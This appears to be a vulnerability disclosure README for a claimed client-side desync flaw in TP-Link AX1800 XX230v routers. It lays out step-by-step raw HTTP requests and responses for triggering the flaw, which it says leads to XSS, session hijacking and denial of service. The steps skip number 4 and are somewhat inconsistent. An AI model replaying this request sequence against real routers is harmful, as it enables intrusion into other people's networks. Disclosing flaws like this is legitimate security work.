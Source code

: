 # 🎀 CSD-AX1800-XX230v 🎀
A critical vulnerability has been found in the remote access panel of<br/>
all TP-LINK AX1800 XX230v GPON routers. The identified vulnerability,<br/>
a client-side desync (CSD) issue, affects the HTTP/1.1 protocol used by<br/>
the affected routers. This vulnerability is triggered by delaying the<br/>
request body in a POST request. The server expects the request body<br/>
and Content-Length header to be received within a specific time frame.<br/>
However, in this case, the server does not correctly handle the delayed<br/>
request body and interprets it as a new connection. This leads to a range<br/>
of security issues, including cross-site scripting (XSS), session hijacking,<br/>
and denial of service (DoS).<br/>

1. The attacker sends a POST request with a malicious body to the target<br/>
server, ensuring the headers are correct:<br/>
POST / HTTP/1.1<br/>
Host: *.*.*.*:8888<br/>
Accept-Encoding: gzip, deflate, br<br/>
Accept: */*<br/>
Accept-Language: en-US;q=0.9,en;q=0.8<br/>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,<br/>
 like Gecko) Chrome/131.0.6778.86 Safari/537.36<br/>
Connection: keep-alive<br/>
Cache-Control: max-age=0<br/>
Content-Length: 307<br/>
Content-Type: application/x-www-form-urlencoded<br/>

2. The attacker introduces an artificial delay before sending the body.<br/>

3. The server times out the wait for the request body but doesn't terminate<br/>
the connection, allowing the attacker to send the request body independently:<br/>
HTTP/1.1 200 OK<br/>
Content-Type: text/html; charset=utf-8<br/>
X-Frame-Options: SAMEORIGIN<br/>
Content-Security-Policy: frame-ancestors 'none'<br/>
Content-Length: 82049<br/>
X-Frame-Options: SAMEORIGIN<br/>
Set-Cookie: JSESSIONID=deleted; Expires=Thu, 01 Jan 1970 00:00:01 GMT;<br/>
 Path=/; HttpOnly<br/>
Connection: keep-alive<br/>

5. The attacker sends the body of the request independently:<br/>
GET / HTTP/1.1<br/>
Host: *.*.*.*:8888<br/>
Accept-Encoding: gzip, deflate, br<br/>
Accept: */*<br/>
Accept-Language: en-US;q=0.9,en;q=0.8<br/>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,<br/>
 like Gecko) Chrome/131.0.6778.86 Safari/537.36<br/>
Connection: close<br/>
Cache-Control: max-age=0<br/>

6. The body is interpreted by the server as a new request due to its delayed<br/>
transmission, causing a condition for XSS payloads or DoS attacks:
HTTP/1.1 200 OK<br/>
Content-Type: text/html; charset=utf-8<br/>
X-Frame-Options: SAMEORIGIN<br/>
Content-Security-Policy: frame-ancestors 'none'<br/>
Content-Length: 82049<br/>
X-Frame-Options: SAMEORIGIN<br/>
Set-Cookie: JSESSIONID=deleted; Expires=Thu, 01 Jan 1970 00:00:01 GMT;<br/>
 Path=/; HttpOnly<br/>
Connection: close<br/>

